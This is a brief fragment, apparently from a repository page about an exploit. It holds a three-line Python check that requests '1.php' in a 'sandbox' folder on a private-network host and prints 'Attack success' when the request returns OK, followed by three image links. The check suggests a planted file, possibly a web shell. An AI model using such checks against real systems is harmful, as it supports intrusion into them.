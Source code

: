 ```
test = requests.get("http://192.168.214.190/sandbox/1.php")
if test.status_code == requests.codes.ok:
	print("[*]Attack success!!!")
```

![06VSiQ.png](https://s1.ax1x.com/2020/10/10/06VSiQ.png)

![06VkLV.png](https://s1.ax1x.com/2020/10/10/06VkLV.png)

![06EkUe.png](https://s1.ax1x.com/2020/10/10/06EkUe.png)

